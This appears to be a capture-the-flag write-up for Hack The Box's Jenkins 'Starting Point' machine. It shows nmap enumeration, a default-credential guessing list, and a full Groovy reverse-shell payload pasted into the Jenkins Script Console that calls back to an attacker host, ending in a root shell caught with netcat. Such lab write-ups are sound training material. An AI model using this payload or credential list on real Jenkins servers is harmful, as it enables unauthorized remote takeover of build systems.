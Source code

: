 #common-applications #jenkins #java #reconnaissance #remote-code-execution #default-credentials 

# 0. Theory

In the cyber security industry, there is a way to identify, define, and catalog publicly disclosed vulnerabilities. That type of identification is called a CVE, which stands for Common Vulnerabilities and Exposures.

Post-analysis, each vulnerability is assigned a severity rating, called a CVSS score, ranging from 0 to 10, where 0 is considered Informational, and 10 is Critical. These scores are dependent on several factors, some of which being the level of CIA Triad compromise (Confidentiality, Integrity, Availability), the level of attack complexity, the size of the attack surface, and others.

One of the most well-known and most feared vulnerability types to find on your system is called an Arbitrary Remote Command Execution vulnerability.

	In computer security, arbitrary code execution (ACE) is an attacker's ability to execute arbitrary commands or code on a target machine or in a target process. [..] A program designed to exploit such a vulnerability is called an arbitrary code execution exploit. The ability to trigger arbitrary code execution over a network (primarily via a wide-area network such as the Internet) is often called remote code execution (RCE).

# 1. Recon

Verify target and availability.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-xqktfghrly]─[~]
	└──╼ [★]$ ping 10.129.97.121 -c 4
	PING 10.129.97.121 (10.129.97.121) 56(84) bytes of data.
	64 bytes from 10.129.97.121: icmp_seq=1 ttl=63 time=7.95 ms
	64 bytes from 10.129.97.121: icmp_seq=2 ttl=63 time=8.16 ms
	64 bytes from 10.129.97.121: icmp_seq=3 ttl=63 time=8.31 ms
	64 bytes from 10.129.97.121: icmp_seq=4 ttl=63 time=8.22 ms
	
	--- 10.129.97.121 ping statistics ---
	4 packets transmitted, 4 received, 0% packet loss, time 3002ms
	rtt min/avg/max/mdev = 7.946/8.156/8.305/0.132 ms


# 2. Enumeration

Starting off with a usual nmap scan, we find `port 8080 TCP` open, being used by an `HTTP` service, `Jetty 9.4.39.v20210325`.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-xqktfghrly]─[~]
	└──╼ [★]$ nmap 10.129.97.121 -sC -sV
	Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-18 14:09 CDT
	Nmap scan report for 10.129.97.121
	Host is up (0.0094s latency).
	Not shown: 999 closed tcp ports (reset)
	PORT     STATE SERVICE VERSION
	8080/tcp open  http    Jetty 9.4.39.v20210325
	|_http-title: Site doesn't have a title (text/html;charset=utf-8).
	|_http-server-header: Jetty(9.4.39.v20210325)
	| http-robots.txt: 1 disallowed entry 
	|_/
	
	Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
	Nmap done: 1 IP address (1 host up) scanned in 6.13 seconds


By checking the running service in the browser, we can see that it is a running Jenkins service.

>*Jenkins is a free and open-source automation server. It helps automate the parts of software development related to building, testing, and deploying, facilitating continuous integration and delivery. It is a server-based system.*

As with all login screens, we can try logging in using commonly used weak credential pairs. Administrators often overlook configuring such services after setting them up.
After searching the web for common weak credential pairs, we get the following result:

	admin:password
	admin:admin
	root:root
	root:password
	admin:admin1
	admin:password1
	root:password1

And we are in with the credential pair `root:password`.
We are presented with the administrative panel for the Jenkins service. Let's look around.

![[Pasted image 20240918212115.png]]


# 3. Foothold

At the bottom right corner of the page, the current version of the Jenkins service is displayed. This is one of the first clues an attacker will check - specifically if the currently installed version has any known CVE's or attack methods published on the Internet.
Unfortunately, this is not the case here; the current version is reported as secure.
As an alternative, we stumble across two vital pieces of information while searching for Jenkins exposures.

- [A handbook including multiple ways of gaining Jenkins RCEs](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)
- [A repository similar to the above, including links to scripts and tools](https://github.com/gquere/pwn_jenkins)

In both links provided above the Jenkins Script Console is mentioned, where what is known as Groovy script can be written and run arbitrarily. To access it, we need to navigate to the left menu, to `Manage Jenkins > Script Console`, or by visiting the following URL directly from the browser URL search bar:

	http://{target_ip}:8080/script

The objective of our Groovy script implementation as explained in the two documents linked before will be to receive a reverse shell connection from the target.

Since it only executes the Groovy commands, we will need to create a payload in Groovy to execute the reverse shell connection. Specifically, we will make the remote server connect to us by specifying our IP address and the port that we will listen on for new connections. Through that listening port, the target will end up sending us a connection request, which our host will accept, forming an interactive shell with control over the target's backend system. In order to do that, we will need a specially crafted payload, which we can find in [the following GitHub cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).

After checking our attacker VM's IP address, we just need to replace the placeholder in the beginning of the following script with it, and we can paste it right into the Jenkins Script Console to execute it (`ip a` command):

	ip a | grep tun0

(Or, alternatively, `ifconfig`.)

	String host="{your_IP}";
	int port=8000; String cmd="/bin/bash";
	Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);
	InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
	 OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()) {while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());
	  while(si.available()>0)po.write(si.read());so.flush();po.flush();
	  Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();
	s.close();

The third line opens a bash terminal, because the target is Linux-based. In case the target would be a Windows machine, we would need to use `cmd.exe` instead:
`String cmd="/bin/bash";`

The rest of the script will instruct the target to create a `cmd` process which will initialize a connection request to the provided `host` and `port` (us, in this case). Our listener script will be running on the specified port and catch the connection request from the target, successfully forming a reverse shell between the target and attacker hosts. On our side, this will look like a new connection is received and that we can now type in the target host's terminal. This will not be visible on the target's side unless they are actively monitoring the network activity of their running processes or the outbound connections from their ports.

Before running the command pasted in the Jenkins Script Console, we need to make sure our listener script is up and running on the same port as specified in the command above, for i`nt port=8000`. To do this, we will use a tool called `netcat` or `nc` for short.
[Wikipedia article for netcat](https://en.wikipedia.org/wiki/Netcat).

Netcat comes pre-installed with every Linux distribution, and in order to see how to use it, we can input the `nc -h` command into our terminal window.

We will need the following options to set up the listener on our end and start the attack (in a new terminal window):

	l : Listening mode.
	v : Verbose mode. Displays status messages in more detail.
	n : Numeric-only IP address. No hostname resolution. DNS is not being used.
	p : Port. Use to specify a particular port for listening.


	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-lwakestwlv]─[~]
	└──╼ [★]$ nc -lvnp 8000
	listening on [any] 8000 ...


Once we click on the Run button at the Jenkins Script Console, we can navigate to the terminal where `netcat` is running and check on the connection state. From the output, we understand that a connection has been received to `{our_IP}` from `{target_IP}`, and then blank space. We can try to interact with the shell by typing in the `whoami` and `id` commands. These commands help verify our permission level on the target system. From the output, we can quickly determine that we rest at the highest level of privilege.


	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.118]─[scrage@htb-lwakestwlv]─[~]
	└──╼ [★]$ nc -lvnp 8000
	listening on [any] 8000 ...
	connect to [10.10.14.118] from (UNKNOWN) [10.129.99.40] 49278
	whoami
	root
	id
	uid=0(root) gid=0(root) groups=0(root)

We have command execution. We navigate to the -root folder and capture the VM's flag.

	cd /root
	ls -la
	total 44
	drwx------  8 root root 4096 Jun 17  2021 .
	drwxr-xr-x 20 root root 4096 Jun 17  2021 ..
	lrwxrwxrwx  1 root root    9 Jun 17  2021 .bash_history -> /dev/null
	-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
	drwxr-xr-x  3 root root 4096 Apr 23  2021 .cache
	-r--------  1 root root   33 Mar 12  2021 flag.txt
	drwxr-xr-x  3 root root 4096 Mar 12  2021 .groovy
	drwxr-xr-x  3 root root 4096 Mar 12  2021 .java
	drwxr-xr-x  3 root root 4096 Mar 12  2021 .local
	-rw-r--r--  1 root root  161 Dec  5  2019 .profile
	drwxr-xr-x  3 root root 4096 Mar 12  2021 snap
	drwx------  2 root root 4096 Mar 12  2021 .ssh
	cat flag.txt
	9cdfb439c7876e703e307864c9167a15


Flag exfiltrated: `9cdfb439c7876e703e307864c9167a15`



https://www.hackthebox.com/achievement/machine/2057492/406
![[Pasted image 20240921165550.png]]